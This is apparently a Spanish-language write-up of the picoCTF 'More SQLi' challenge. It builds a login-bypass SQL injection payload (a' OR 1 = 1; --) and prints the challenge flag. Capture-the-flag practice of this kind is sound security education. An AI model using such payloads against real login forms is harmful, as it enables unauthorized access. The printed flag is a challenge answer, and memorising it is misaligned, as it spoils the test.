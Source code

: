 ```yaml
---
title: More SQLi
date: 2025-05-14 13:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, more sqli, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>More SQLi
Author: Mubarak Mikail
Description
Can you find the flag on this website. Try to find the flag here.
{: .prompt-tip }

Como este ejercicio va de injecciones SQL empezamos con el típico '1 = 1' para ver el resultado. 

``` html
username: admin
password: 1 = 1
SQL query: SELECT id FROM users WHERE password = '1 = 1' AND username = 'admin'

```
Viendo esto, creo que podemos intentar injectar con un OR, añadiendo "--" para comentar el resto de la query, etc.
Luego podemos ver como queda la query e ir retocándola.

``` 
SELECT id FROM users WHERE password = 'pass OR 1 = 1' AND username = 'admin'
pass OR 1 = 1 --'

```

Finalmente compruebo que esta funciona. También puedes usar herramientas automáticas como un Fuzzer o SQLMap

``` 
a' OR 1 = 1; --
```


``` html
username: test
password: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
SQL query: SELECT id FROM users WHERE password = 'picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}' AND username = 'test'
```

flag: **picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}**

Una de SQLi. 
